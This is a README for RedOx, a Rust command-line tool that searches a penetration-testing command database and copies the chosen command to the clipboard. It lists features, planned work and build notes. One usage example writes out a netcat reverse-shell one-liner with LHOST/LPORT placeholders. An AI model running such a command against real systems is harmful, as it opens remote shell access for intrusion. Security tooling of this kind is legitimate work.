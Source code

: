 
The goal of this project is to create an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) or something to run in the terminal that works like [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin. This started as a project to help improve my proficiency with Rust. I'm still new to it so I'm sure there are some poor Rust coding practices but I will be refactoring the code as I go.  I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that needs some updating and new syntax needs to be added since that hasn't been touched in almost 6 years.  

My current usage of this is to have it running in a tmux pane and when I need the syntax for something like downloading a file from my local machine and then executing that in memory via powershell then I can just ctrl+r in the CLI, type something like IEX or powershell, and then select the syntax I need via the arrow keys.  Pressing return on the hightlighted command will then copy that command to the clipboard.  So instead of searching through my notes or opening a web browser, I can stay in the terminal and quickly copy/paste the command I need via the RedOx CLI.  

## Working Features
- Ctrl+r to dynamically search the RTFM database for commands as you type and display those in a selectable list.  Works similarly to using Ctrl+r to search through terminal history.
- Ctrl+h to display a history of previously selected commands from the current session in a selectable list. 
- up/down arrow keys to highlight a command from the current search or from the history. Pressing return copies that command to the clipboard.  
- 'info' displays full information on the currently selected command.  'full information' is very sparse at the moment.  
- 'add -c <command>' to add a new command to the database.  optional: -d to add a comment/description with the command.
- 'update <column> <content>' to update a database column of the currently selected command, which are 'command', 'comment' and 'author' at the moment. The ID of the active command is displayed in the command prompt. Examples: 'update comment spawn a pty via python3', 'update author greg scharf', 'update command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f'.  

## Currently Working On
- 'set' command for variable replacement when selecting a command that has placeholders for LHOST, LPORT, etc.
- In 'info' show variables that need to be set and their value if they are set.
- Need to do some sed magic on the database build files to make variable names consistent and then rebuild the database.

## To Add
- [ ] Set variables in the CLI to automatically replace placeholders in commands for things like Remote Host, Local Host, Local Port, etc similar to msfconsole.  
    - Need to standardize the naming of placeholders that are already in the RTFM database because sometimes the local host IP is represented as [me],[IP],[LHOST] or [lip].
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Add 'env' command to display all variables set in the user's config file
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [x] Add ability to update the database columns of the currently selected command.
- [x] Display command's comment and any other info after it has been selected.
- [x] Add a history feature, ctrl+h or type 'history' to show a selectable list of previously copied commands.
- [x] Show currently selected command in prompt, type info to show all columns to allow for easier updating of the database within the CLI.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Update the database with newer commands for things like Bloodhound,ffuf,feroxbuster,Rubeus,Crackmapexec,Chisel,SSHuttle, etc.
- [ ] Add a better method for generating help content with the prettytable crate.
- [ ] Allow selection mode to wrap up or down
- [ ] Fix errors that occur when attempting to create a statically linked linux release
- [ ] Get Windows version working
- [ ] Add search capability for text based/markdown notes.    
    - Root directory for user's notes will be supplied in a CLI variable.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected... there is probably a crate to display markdown.

## To Fix
- [ ] 5-26-23: Clean up code again before it becomes too unruly.
- [x] Termion inconsistent colors between Arch and Ubuntu.
- [ ] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Issues with Termion when attempting to build a Windows executable.
- [ ] Termion screen refresh on MAC M1 causes screen to flicker when arrowing through commands.

## Build

### Linux
Issue encountered when building on Ubuntu 20.04: linker failed and the only fix was to install the following packages.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

### Windows
**Note**: Building on Windows is not currently working because of an issue I need to resolve related to the Sys crate???
